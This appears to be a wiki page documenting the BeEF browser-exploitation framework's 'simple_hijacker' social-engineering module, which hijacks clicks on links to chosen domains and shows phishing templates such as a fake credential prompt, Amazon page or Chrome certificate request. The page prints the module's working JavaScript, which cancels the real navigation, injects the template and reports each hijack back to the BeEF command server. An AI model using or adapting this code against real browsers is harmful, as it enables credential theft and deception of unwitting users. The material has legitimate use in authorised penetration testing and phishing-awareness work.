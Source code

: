 ##Summary
* **Objective**: Hijack clicks on links to display what you want.
* **Authors**: gallypette
* **Browsers**: All (user notified)
* **Parameters** :
  * **targeted domains** : Only links including one of this domain will be targeted (domains are separated by a comma)
  * **Template to use** : List of template for social engineering attacks : credential, confirmbox, amazon, chromecertbeggar, chromecertbeggar2
* [Code](https://github.com/beefproject/beef/tree/master/modules/social_engineering/simple_hijacker)

## Internal working

Basically, this module will take any link in the page, check if it target one of the domains given and load the template when the link is clicked.

```javascript
    $j('a').click(function(e) {
      e.preventDefault();
      if ($j(this).attr('href') != '')
      {
        if( <% target.each{ |href| %> $j(this).attr('href').indexOf("<%=href%>") != -1 <% if href != target.last %> || <% else %> ) <% end %><% } %>{	
          <%
              tplpath = "#{$root_dir}/modules/social_engineering/simple_hijacker/templates/#{@choosetmpl}.js"
              file = File.open(tplpath, "r")
              @template = file.read
          %>
          <%= @template %>
          beef.net.send('<%= @command_url %>', <%= @command_id %>, 'result=Template "<%= @choosetmpl %>" applied to '+$j(this).attr('href'));
        }
      }
    });
```

## Screenshots 

_Command_ :
[[Images/module-simplehijacker1.png|align=center]]

_Amazon template_ :
[[Images/module-simplehijacker2.png|align=center]]

_Confirmbox :_ :
[[Images/module-simplehijacker3.png|align=center]]

_Chrome Cert 1:_ :
[[Images/module-simplehijacker4.png|align=center]]

_Chrome Cert 2:_ :
[[Images/module-simplehijacker5.png|align=center]]

## Feedbacks

* Domains are really important as the name should be included in the link. Links which are not included in this domain's list will not redirect to the correct URL anymore.